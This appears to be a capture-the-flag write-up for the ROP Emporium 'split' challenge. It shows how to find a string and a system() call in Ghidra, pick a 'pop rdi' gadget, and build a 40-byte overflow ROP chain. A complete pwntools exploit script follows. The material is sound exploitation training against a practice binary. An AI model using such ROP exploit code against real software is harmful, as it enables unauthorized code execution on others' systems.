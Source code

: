 # Split

This challenge is very similar to challenge 1 (ret2win). We must once again return to a call to system() that reads the flag file. However, as is in the name of the challenge, the instructions to do this are no longer together in a convenient function, but have been split up.

The binary already contains the string "/bin/cat flag.txt". We can find it by loading the binary into Ghidra and using the string search feature. This reveals the string is stored at the address 0x601060.

The binary also already contains a call to system(). We can find it by looking up system and Ghidra and reviewing the references. This shows system() is called in the following function (the call to system is at 0x40074b):
```
void usefulFunction(void) {
  system("/bin/ls");
  return;
}
```
The problem now lies in the fact that system() is called with "/bin/ls", which is not what we want. We want to be able to provide our own argument to system(), namely "/bin/cat flag.txt" which we have at 0x601060. The argument to system() is provided via the rdi register. If we can thus place our string "/bin/cat flag.txt" into the rdi register before calling system(), we get the desired functionality! To do this we can find a gadget to set rdi:
```
ropper --file split | grep rdi
...
0x00000000004007c3: pop rdi; ret;
```
Our payload thus becomes the following:
```
cat_flag_string = p64(0x601060)
system_call = p64(0x40074b)
pop_rdi = p64(0x4007c3)

payload = b"A"*40
payload += pop_rdi
payload += cat_flag_string
payload += system_call
```
This payload overwrites the return address with the address of our pop rdi gadget. This gadget then pops a value from the stack and places it into rdi. The value popped by this gadget is the next value on our payload, the address of the string "/bin/cat flag.txt". After popping this value from the stack, our gadget returns. When this return happens, the next value on the stack is placed into the instruction pointer. For this return address, we provide the address of the call to system().

The full script is thus as follows:
```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./split"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT STARTS HERE
# ===========================================================

io = start()

cat_flag_string = p64(0x601060)
system_call = p64(0x40074b)
pop_rdi = p64(0x4007c3)

payload = b"A"*40
payload += pop_rdi
payload += cat_flag_string
payload += system_call


io.sendlineafter(b">", payload)

io.interactive()
```

